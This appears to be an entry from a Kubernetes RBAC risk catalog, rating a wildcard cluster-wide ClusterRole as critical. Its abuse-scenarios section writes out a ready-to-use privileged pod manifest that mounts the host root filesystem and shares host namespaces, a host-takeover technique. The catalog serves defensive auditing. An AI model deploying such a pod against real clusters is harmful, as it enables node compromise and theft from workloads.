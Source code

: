 ```yaml
---
id: 1060
title: "Wildcard permission on all resources cluster-wide (Cluster Admin)"
description: "Grants unrestricted, wildcard ('*') access to all API groups, resources, and verbs across the entire cluster. This is equivalent to full cluster administrator privileges, allowing complete control and compromise of the Kubernetes cluster."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field                   | Value                                                                                                                                                                 |
| ----------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ID                      | 1060                                                                                                                                                                  |
| Name                    | Wildcard permission on all resources cluster-wide (Cluster Admin)                                                                                                     |
| Risk Category           | Elevation of Privilege                                                                                                                                                |
| Risk Level              | {{< risk Critical >}}                                                                                                                                                 |
| Role Type               | ClusterRole                                                                                                                                                           |
| API Groups              | \*                                                                                                                                                                    |
| Resources               | \*                                                                                                                                                                    |
| Risky Verb Combinations | [*]                                                                                                                                                                   |
| Tags                    | {{< tag "ClusterAdminAccess" >}} {{< tag "DenialOfService" >}} {{< tag "InformationDisclosure" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Spoofing" >}} (+2 more) |

## Description

Grants unrestricted, wildcard ('\*') access to all API groups, resources, and verbs across the entire cluster. This is equivalent to full cluster administrator privileges, allowing complete control and compromise of the Kubernetes cluster.

## Abuse Scenarios

1. List all resources across all namespaces (demonstrates broad read access).

```bash
kubectl get all --all-namespaces

```

2. Create a privileged pod with full host access (demonstrates full control).

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: cluster-admin-pod
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: attacker
    image: busybox
    command: ["/bin/sh", "-c", "sleep infinity"]
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: host-root
  volumes:
  - name: host-root
    hostPath:
      path: /
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```
